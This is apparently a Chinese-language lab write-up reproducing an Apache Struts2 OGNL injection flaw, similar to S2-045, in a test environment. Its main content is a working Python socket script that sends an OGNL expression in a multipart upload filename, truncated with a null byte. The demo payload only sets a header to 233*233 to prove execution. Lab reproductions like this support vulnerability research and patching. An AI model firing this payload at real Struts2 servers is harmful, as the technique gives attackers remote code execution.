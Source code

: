 环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

与s2-045类似，但是输入点在文件上传的filename值位置，并需要使用`\x00`截断。

由于需要发送畸形数据包，我们简单使用原生socket编写payload：

```python
import socket

q = b'''------WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Disposition: form-data; name="upload"; filename="%{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('X-Test',233*233)}\x00b"
Content-Type: text/plain

foo
------WebKitFormBoundaryXd004BVJN9pBYBL2--'''.replace(b'\n', b'\r\n')
p = b'''POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXd004BVJN9pBYBL2
Content-Length: %d

'''.replace(b'\n', b'\r\n') % (len(q), )

with socket.create_connection(('your-ip', '8080'), timeout=5) as conn:
    conn.send(p + q)
    print(conn.recv(10240).decode())
```



`233*233`已成功执行：


